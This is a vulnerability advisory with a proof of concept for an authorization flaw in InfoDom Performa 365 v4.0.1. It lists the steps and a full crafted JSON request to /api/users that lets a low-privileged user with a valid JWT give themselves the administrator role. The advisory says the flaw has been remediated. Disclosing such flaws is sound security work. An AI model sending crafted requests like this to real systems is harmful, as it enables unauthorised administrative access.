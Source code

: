 An issue in InfoDom Performa 365 v4.0.1 allows authenticated attackers to elevate their privileges to Administrator via a crafted payload sent to /api/users

PoC:
- We login as low privileged user and obtain the JWT associated with our user
- Now, we create a new request to /api/users in which we set our role to administrator and user the low privileged JWT to send the request. The body of the request:
```
{
	"rules": [{
		"property": 1,
		"syncMode": 2
	}, {
		"property": 2,
		"syncMode": 2
	}, {
		"property": 3,
		"syncMode": 2
	}, {
		"property": 4,
		"syncMode": 2
	}, {
		"property": 5,
		"syncMode": 2
	}, {
		"property": 6,
		"syncMode": 2
	}, {
		"property": 7,
		"syncMode": 2
	}, {
		"property": 8,
		"syncMode": 2
	}, {
		"property": 9,
		"syncMode": 2
	}, {
		"property": 10,
		"syncMode": 2
	}],
	"id": "<redacted>",
	"externalId": "<redacted>",
	"email": "<redacted>",
	"firstName": "<redacted>",
	"lastName": "<redacted>",
	"displayName": "<redacted",
	"status": 1,
	"active": true,
	"gender": 0,
	"address": null,
	"contactNumber": null,
	"description": null,
	"taxId": null,
	"nationalId": null,
	"image": null,
	"jobTitle": null,
	"enrolledTime": "0001-01-01T00:00:00",
	"onWaitingListTime": "0001-01-01T00:00:00",
	"userType": 1,
	"organization": null,
	"roles": [{
		"id": 1,
		"name": "Glavni administrator"
	}],
	"assignmentOrganizationRightIds": [],
	"assignmentEducationRightIds": [],
	"createdOn": "2023-12-21T13:13:06.3740398",
	"updatedOn": "2024-08-28T10:51:56.8529657",
	"isValid": true,
	"errors": null,
	"code": 200,
	"tenantId": "<redacted>",
	"userId": "<redacted>",
	"pictureChanged": false,
	"applicationRoleIds": [1]
}
```
- Going back to our original session and refreshing it results in access to administrative functions.

The vulnerability is a specific case of a broader lack of authorization vulnerability which affects multiple endpoints as specified in the report. All vulnerabilities were remediated.

For more information see the redacted Burp request.
